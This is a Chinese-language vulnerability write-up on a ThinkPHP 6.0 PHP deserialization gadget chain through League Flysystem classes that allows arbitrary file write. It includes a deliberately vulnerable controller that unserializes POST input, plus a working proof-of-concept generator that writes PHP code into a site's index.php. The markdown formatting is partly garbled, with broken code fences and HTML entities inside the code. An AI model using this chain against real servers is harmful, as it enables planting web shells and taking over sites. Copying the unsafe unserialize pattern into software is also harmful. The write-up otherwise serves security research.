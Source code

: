 ```yaml
---
title: "Thinkphp 6.0 任意文件写入pop链"
id: zhfly3173
---
```


# Thinkphp 6.0 任意文件写入pop链

## 一、漏洞简介

需要知晓绝对路径

## 二、漏洞影响

Thinkphp 6.0

## 三、复现过程

### 环境搭建

ThinkPHP6.0.2

PHP7.2

```
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController

```
public function test(){
    echo base64_decode($_POST['payload']);
    $payload = unserialize(base64_decode($_POST['payload']));
} 
``` `}` 
```

### 漏洞分析

POP链：

```
League\Flysystem\Cached\Storage\AbstractCache --> destruct()
League\Flysystem\Cached\Storage\Adapter --> save()
League\Flysystem\Adapter\Local --> write()
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php 
```

![image](../img/a7857f16bdb35b974425b4189728e78d.png)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![image](../img/2f7b35acc875f9b281ac040cdec4cec3.png)

$contents决定文件写入内容，显然可向$this->complete或$this->expire写入具体内容即可

![image](../img/42fae2a54885f5acb8c04efcf189d754.png)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![image](../img/d034c5997d690f596aa28aaed93e591f.png)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![image](../img/ed083267ed0aef949f9f2ccdd4a1d1ce.png)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

```
<?php
namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
	protected $autosave = true;
	protected $cache = [];
	protected $complete = [];
	function __construct(){
		$this->autosave = false;
		$this->cache = ['test'];
		$this->complete = ["axin"=>"<?php phpinfo();?>"];
	}
}

class Adapter extends AbstractCache{

protected $adapter;

protected $file;

protected $expire = null;

```
function __construct(){
	parent::__construct();
	$this-&gt;adapter = new Local();
	$this-&gt;file = "var/www/html/index.php";
    #$this-&gt;file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
	$this-&gt;expire = 123;
} 
```

}

namespace League\Flysystem\Adapter;

abstract class AbstractAdapter{

protected $pathPrefix;

function __construct(){

$this->pathPrefix = “/”;

#$this->pathPrefix = “D”;  #windows下目录

}

}

class Local extends AbstractAdapter{ `}

use League\Flysystem\Cached\Storage\Adapter;

echo base64_encode(serialize(new Adapter()));` 
```

![image](../img/f39f8a08d42bb6db348eda281091281b.png)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![image](../img/9db8520ab2063900e0eb1ba5cf89a1db.png)

文件成功写入：

![image](../img/2c772bddc271398993f6ad9096f735bf.png)

## 参考链接

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/

> https://www.anquanke.com/post/id/194269